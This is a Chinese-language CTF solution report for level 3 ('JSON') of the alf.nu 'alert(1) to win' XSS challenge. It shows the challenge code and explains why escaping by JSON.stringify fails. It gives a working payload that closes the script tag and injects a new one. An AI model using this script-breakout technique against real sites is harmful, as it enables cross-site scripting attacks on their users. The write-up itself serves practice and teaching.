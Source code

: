 ## [[alert(1) to win](https://alf.nu/alert1)] [[Level 03 - JSON](https://alf.nu/alert1)] [[解题报告](http://exp-blog.com/2019/08/04/pid-3893/)]

------

## 题目

```javascript
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

------

## 解题报告

从代码可知对输入做了 `stringify` 过滤，关于其功能详见 [这里](https://www.runoob.com/js/javascript-json-stringify.html) 

简单来说就是把 `"` 和 `\` 都转义了，导致无法直接闭合函数。

但是闭合 `<script>` 就可以了，构造 payload 如下 （此处没有闭合后半段的双引号，而是通过行注释 `//` 屏蔽掉）：

```javascript
</script><script>alert(1);//
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/alert/Level%2003%20-%20JSON/imgs/01.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
